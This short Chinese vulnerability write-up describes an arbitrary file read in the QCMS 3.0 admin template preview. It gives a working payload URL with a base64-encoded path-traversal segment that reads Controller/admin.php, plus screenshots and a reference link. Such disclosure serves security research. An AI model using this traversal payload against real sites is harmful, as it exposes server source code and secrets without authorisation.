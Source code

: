 QCMS 3.0 任意文件读取
=====================

一、漏洞简介
------------

二、漏洞影响
------------

QCMS 3.0

三、复现过程
------------

用seay扫了一下后发现的漏洞

漏洞在后台模板代码预览处，构造payload例如

    http://www.0-sec.org/backend/template/tempview/Li4vLi4vLi4vQ29udHJvbGxlci9hZG1pbi5waHA=.html

即可读取Controller文件下admin.php文件源码

![](./.resource/QCMS3.0任意文件读取/media/rId24.png)

跟源码对比下，确实是读到了

![](./.resource/QCMS3.0任意文件读取/media/rId25.png)

参考链接
--------

> https://xz.aliyun.com/t/7269
